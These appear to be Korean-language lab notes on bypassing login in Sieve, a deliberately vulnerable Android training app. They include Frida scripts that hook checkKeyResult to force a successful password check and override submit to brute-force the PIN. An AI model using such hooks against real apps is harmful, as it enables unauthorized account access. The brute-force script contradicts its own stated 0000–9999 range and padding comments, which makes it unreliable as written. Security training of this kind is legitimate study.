


1. 환경 구성

https://github.com/as0ler/Android-Examples/blob/master/sieve.apk

2. 로그인 우회 실습
- 타깃 1. 비밀번호 검증 로직 우회
- 타깃 2. Pin 번호 검증 로직 우회 (Brute force)


---

## 타깃 1. 비밀번호 검증 로직 우회

- 

잘못된 비밀번호 입력 시 화면

로직 파악을 위해 문자열 검사 진행

- 

원하는 로직 파악이 없음

⚠️
이럴 경우 리소스 > AndroidManifest.xml 파일 내 패키지 이름을 확인 후

- 

패키지 메인 클래스에서

관련 메서드를 유추

- 

의심 가는 메서드가 어디서 호출되는지 확인

- 

해당 클래스들을 살펴보면서

어느 부분을 후킹 할지

고민해 본다.

MainLoginActivity - 비밀번호 우회 포인트

ShorLoginActivity - Pin 우회 포인트


MainLoginActivity 클래스 내


checkkeyResult 메서드의 인자 값 status 를 항상 true 로 받아 loginSuccessful 실행되도록 재작성해본다. 

```js
setImmediate(function(){
	Java.perform(function(){
		var login_bypass = Java.use("com.mwr.example.sieve.MainLoginActivity");
		login_bypass.checkKeyResult.implementation = function(){ 
			console.log("\n[+] 로그인 우회 성공!\n");
			this.checkKeyResult(true);  // checkKeyResult의 기존 조건 분기 로직을 그대로 동작시키면서 무조건 true로 빠지도록!
		}
    })
})
```

- 

로그인 우회 성공!

---

## 타깃 2. Pin 번호 검증 로직 우회 (Brute force)

- 

- 

이용자가 입력한 값을 this.serviceConnection.checkPin 메서드 인자로 넣는 것을 확인

this.serviceConnection.checkPin 메서드를 호출하는 submit 메서드를 재작성하고

Pin은 4 자리로 이루어져 있으니 0000~9999까지 brute force 진행한다.


checkPin이 인자로 받고 있는 데이터는

- 

String 값이니 이에 맞게 brute force 한다.

```js
setImmediate(function () {
    Java.perform(function () {
        
        function padToFour(number) {
            if (number <= 3333) {  
                number = ("000" + number).slice(-4); 
                return String(number);               
            }
        }
        var ShortLoginActivity = Java.use("com.mwr.example.sieve.ShortLoginActivity");
        
        ShortLoginActivity.submit.implementation = function () {

            // .value를 통해 "진짜 Java 객체"를 꺼내야 한다.
            var service = this.serviceConnection.value;

            // 1000 ~ 3332 까지 PIN을 전부 시도
            for (var i = 1000; i < 3333; i++) {

                var pin = padToFour(i); // 예: 1000 → "1000",  5 → "0005"
                service.checkPin(pin);

                console.log("\n[+] BruteForce: " + pin);
            }
        };
    });
});

```


---


